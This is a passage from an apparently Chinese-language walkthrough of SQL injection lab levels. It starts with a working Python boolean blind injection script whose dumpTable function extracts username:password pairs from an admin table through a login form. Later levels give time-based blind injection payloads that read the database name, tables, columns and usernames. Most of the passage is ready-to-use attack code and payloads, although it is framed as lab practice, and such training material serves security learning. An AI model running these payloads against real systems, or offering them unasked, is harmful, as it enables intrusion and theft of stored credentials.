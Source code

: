 ```python
            res = requests.post(host, data=param)
            if "用户名错误" in res.text:
                high = mid
            else:
                low = mid+1
            mid=(low+high)//2
        if mid <= 32 or mid >= 127:
            break
        ans += chr(mid-1)
        print("column is -> "+ans)

def dumpTable():#脱裤
    global host
    ans=''
    for i in range(1,10000):
        low = 32
        high = 128
        mid = (low+high)//2
        while low < high:
            payload = "1'^(ascii(substr((select(group_concat(username,0x3a,password))from(admin)),%d,1))<%d)^1#" % (
                i, mid)
            param = {"username": payload, "password": "admin"}
            res = requests.post(host, data=param)
            if "用户名错误" in res.text:
                high = mid
            else:
                low = mid+1
            mid=(low+high)//2
        if mid <= 32 or mid >= 127:
            break
        ans += chr(mid-1)
        print("dumpTable is -> "+ans)

dumpTable()
```

### 第八关

还是布尔盲注，跟上面一样

### 第九关

不管怎么写它都不改变页面，可以试试时间盲注了

`?id=1' and sleep(3)--+`

F12打开看看响应时间花了3.12秒，说明是以`'`闭合的

接下来就是时间盲注试出所有信息了

```
?id=1' and if(ascii(substr(select database()),1,1)>100,sleep(0),sleep(3))--+
?id=1' and if(ascii(substr(select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)>100,sleep(0),sleep(3))--+
?id=1' and if(ascii(substr(select column_name from information_schema.columns where table_schema=database() limit 0,1),1,1)>100,sleep(0),sleep(3))--+
?id=1' and if(ascii(substr(select username from users limit 0,1),1,1)>100,sleep(0),sleep(3))--+
```
